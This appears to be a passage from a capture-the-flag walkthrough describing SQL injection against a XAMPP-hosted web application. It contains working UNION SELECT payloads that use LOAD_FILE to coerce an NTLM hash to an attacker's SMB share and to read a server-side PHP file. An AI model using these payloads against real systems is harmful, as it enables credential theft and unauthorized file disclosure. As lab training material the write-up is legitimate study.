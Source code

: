 ![](./images/15.png)

- The hash is not crackable
  - We can try stealing `NTLM` hash
    - `' UNION SELECT LOAD_FILE('\\\\10.10.16.9\\test'),2,3 -- -`
  - But it's not crackable too

![](./images/16.png)

- Let's try reading files from the host
  - We know from the note, that all files are in default `xampp` folder
    - https://tonyfrenzy.medium.com/xampp-serving-from-any-directory-outside-of-htdocs-22a93f1b8815
  - Based on that let's try reading `backdoorcheck.php`
    - `' UNION SELECT LOAD_FILE('c:\\xampp\\htdocs\\admin\\backdoorchecker.php'),2,3 -- -`

![](./images/17.png)
